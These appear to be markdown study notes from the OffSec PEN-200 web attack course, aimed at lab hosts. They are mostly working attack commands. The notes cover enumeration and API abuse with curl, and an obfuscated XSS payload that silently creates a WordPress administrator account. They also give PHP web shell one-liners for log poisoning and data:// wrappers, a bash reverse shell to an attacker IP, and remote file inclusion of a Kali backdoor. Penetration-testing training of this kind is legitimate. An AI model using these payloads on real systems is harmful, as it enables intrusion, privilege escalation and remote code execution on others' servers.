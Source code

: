 
# Enumeration

Fingerprint Web Servers with Nmap

```shell
sudo nmap -p80 -sV 192.168.50.20
sudo nmap -p80 --script=http-enum 192.168.50.20
```

[https://www.wappalyzer.com/](https://www.wappalyzer.com/)

```shell
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

Simply enter **about:config** in the address bar. Firefox will present a warning, but we can proceed by clicking _I accept the risk!_. Finally, search for "network.captive-portal-service.enabled" and double-click it to change the value to "false". This will prevent these messages from appearing in the proxy history.

```shell
cat /etc/hosts

.....
192.168.50.16 offsecwp
```

```shell
cat /usr/share/wordlist/rockyou.txt
```

```shell
echo "{GOBUSTER}/v1\n{GOBUSTER}/v2" > pattern.txt

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern.txt

curl -i http://192.168.50.16:5002/users/v1

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

curl -i http://192.168.50.16:5002/users/v1/admin/password

curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}' --proxy 127.0.0.1:8080
```

# XSS

FireFox Console
```
CTRL + SHIFT + K
```

XSS Payloads:
```
< > ' " { } ;
```

The Secure[3](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/basic-xss-44524#fn-local_id_2351-3) flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

The HttpOnly[4](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/basic-xss-44524#fn-local_id_2351-4) flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

```JavaScript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

```JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

[JS Compress](https://jscompress.com/)

```JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,...,115,41,59))</script>" --proxy 127.0.0.1:8080
```

# Directory Traversal

```powershell
C:\Windows\System32\drivers\etc\hosts
```

Internet Information Services (IIS)
```Powershell
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

Try both
```
/..
..\
without C:\
```

XAMPP Apache logs on Windows
```Powershell
C:\xampp\apache\logs\access.log
```


PHP Command Injection One Liner
```PHP
<?php echo system($_GET['cmd']); ?>


../../../../../../../../../var/log/apache2/access.log&cmd-ps


bash -c "bash -i >& /dev/tcp/[remote.attacker.ip]/4444 0>&1"
```

## PHP Wrappers

```shell
curl http://mountaindesserts.com/meteor/index.php?page=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

echo "PCFE...K==" | base64 -d
```

When cannot poison a local file with PHP Code, use the **data://** php wrapper:
```shell
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
the **data://** wrapper will not work in a default PHP installation. To exploit it, the [_allow_url_include_](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/php-wrappers-44647#fn-local_id_382-7) setting needs to be enabled.

## Remote File Inclusion (RFI)

Kali included web shells:
```shell
ls /usr/share/webshells/php/

cat simple-backdoor.php

python3 -m http.server 80

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"```